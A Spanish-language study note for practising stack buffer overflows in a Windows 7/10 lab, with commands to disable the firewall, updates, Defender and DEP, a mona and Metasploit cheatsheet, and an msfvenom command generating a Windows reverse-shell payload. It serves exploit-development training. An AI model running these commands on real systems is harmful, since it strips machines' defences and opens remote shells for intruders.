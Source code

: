 # Buffer Over Flow

## Preparar entorno

Para poder explotar o practicar de manera controlada y adecuada sin inconvenientes buffer overflow necesitaremos un ambiente en la que podamos realizar pruebas, por lo que realizaremos las configuraciones necesarias para realizar el laboratorio en un windows 7 o windows 10.

## Windows 7

### Deshabilitar el firewall de Windows

Para deshabilitar seleccionaremos `Panel de Control` y luego `Sistema de seguridad`

![20240226162428.png](20240226162428.png)

Luego seleccionaremos `Firewall de windows`

![20240226162508.png](20240226162508.png)

Para hacer click en `Activar o desactivar Firewall de windows`

![20240226162545.png](20240226162545.png)

Y luego seleccionar `Desactivar ...` en ambos casos, presionamos el boton aceptar y se guardara y se desactivo el firewall con exito

![20240226162639.png](20240226162639.png)

### Deshabilitar las actualizaciones de Windows

Ahora desactivaremos las actualizaciones de windows, para lo que iremos a `Sistema y seguridad`

![20240226165455.png](20240226165455.png)

Luego elegiremos `windows update`

![20240226165413.png](20240226165413.png)

Seguiremos con `Cambiar configuración`

![20240226165953.png](20240226165953.png)

Y seleccionaremos `No buscar actualizaciones`

![20240226170039.png](20240226170039.png)

### Deshabilitar Windows Defender

Para desactivar el defender podemos ir a `windows defender`

![20240226170224.png](20240226170224.png)

o desde la PowerShell realizar lo siguiente:

```php
# Deshabilitar Windows Defender
Set-MpPreference -DisableRealtimeMonitoring $true

# Deshabilitar el servicio Windows Defender Antivirus
Set-Service -Name WinDefend -StartupType Disabled
Stop-Service -Name WinDefend

```

### Deshabilitar el Dep

```php
bcdedit.exe /set {current} nx AlwaysOff
```

## Windows 10

### Deshabilitar el firewall de Windows

Para deshabilitar el firewall primero abriremos el `panel de control` y luego seleccionaremos `sistema y seguridad`

![20240226200721.png](20240226200721.png)

Luego seleccionaremos `Firewall de windows Defender`

![20240226200819.png](20240226200819.png)

Y realizaremos click en `Activar o desactivar el Firewall de windows Defender`

![20240226200948.png](20240226200948.png)

Luego de hacer click iremos a la siguiente sección, en donde desactivaremos la `configuracion de red privada` y `firewall de windows defender`

![20240226201045.png](20240226201045.png)

#### Powershell

También podemos realizar lo anterior desde la powershell :

Puedes deshabilitar el Firewall de Windows utilizando PowerShell con los siguientes comandos:

```php
# Deshabilitar el Firewall de Windows
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

Este comando deshabilitará el Firewall de Windows para los perfiles de red Domain, Public y Private. Si deseas deshabilitar el Firewall solo para un perfil específico, puedes cambiar los perfiles en el comando. Por ejemplo, para deshabilitarlo solo para el perfil de red privada, usarías:

```php
Set-NetFirewallProfile -Profile Private -Enabled False
```

### Deshabilitar las actualizaciones de Windows

```php
# Deshabilitar las actualizaciones automáticas
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU" -Name "NoAutoUpdate" -Value 1

# Detener el servicio de actualización de Windows
Stop-Service -Name wuauserv
Set-Service -Name wuauserv -StartupType Disabled

```

### Deshabilitar Windows Defender

```php
# Deshabilitar Windows Defender
Set-MpPreference -DisableRealtimeMonitoring $true

# Deshabilitar el servicio Windows Defender Antivirus
Set-Service -Name WinDefend -StartupType Disabled
Stop-Service -Name WinDefend

```

### Deshabilitar el Dep

```php
bcdedit.exe /set {current} nx AlwaysOff
```

### Mona

Su instalación es bastante sencilla, descargamos el script [mona.py](https://github.com/corelan/mona) de su repositorio oficial. Este script lo movemos a la siguiente ruta:

`C:\\Archivos de programa\\Immunity Inc\\Immunity Debugger\\PyCommandsC:\\Program Files\\Immunity Inc\\Immunity Debugger\\PyCommands`

Y estaría listo para ser usando en el Immunity Debugger

### Desinstalar actualizaciones de seguridad

https://github.com/0xBEN/RemoveWindowsSecurityPatches?ref=benheater.com\
https://www.immunityinc.com/products/debugger/?ref=benheater.com\
https://github.com/corelan/mona/blob/master/mona.py?ref=benheater.com

## Cheatsheet

* Generar caracteres para encontrar el numero de offset

```php
❯ msf-pattern_create -l 2000
```

* Encontrar el numero de offset segun el EIP

```php
❯ msf-pattern_offset -q 6F43396E
```

* Crear directorio de trabajo:

```php
!mona config -set workingfolder <ruta>\%p
```

ejemplo:

```php
!mona config -set workingfolder C:\Users\seven\Desktop\OSCP
```

* Generar un array de bytes de la siguiente forma:

```php
!mona bytearray
```

* Badchars :

```php
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

* Obtener badcharacters con la dirección de ESP

```php
!mona compare -f <especificamos la ruta del bytearray.bin> -a <dirección del ESP>
!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 6F43396E
```

* Quitar los badchars del byarray

```php
!mona bytearray -cpb "<badchars>"
!mona bytearray -cpb "\x00"
```

* Obtener la dirección de `jmp ESP` haremos uso de los babchars que se encontró

```php
!mona jmp -r esp -cpb "\x00\x0a"
```

La dirección que nos muestra es igual al anterior método:

```php
0x080414C3
0x080416BF
```

* Luego de obtener la dirección colocaremos de manera inversa en nuestro script:

```php
"\xc3\x14\x04\x08"  
```

* Payload

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x0a" -f c
```

### Plataformas y aplicaciones para practicar:

* [https://tryhackme.com/room/bufferoverflowprep](https://tryhackme.com/room/bufferoverflowprep)
* [https://tryhackme.com/jr/brainstorm](https://tryhackme.com/jr/brainstorm)
* [https://tryhackme.com/jr/gatekeeper](https://tryhackme.com/jr/gatekeeper)
* [https://tryhackme.com/room/brainpan](https://tryhackme.com/room/brainpan)
* [https://www.w0lff4ng.org/stack-buffer-overflow-basico-parte-2/](https://www.w0lff4ng.org/stack-buffer-overflow-basico-parte-2/)
* [https://rinku.tech/buffer-overflow/](https://rinku.tech/buffer-overflow/)
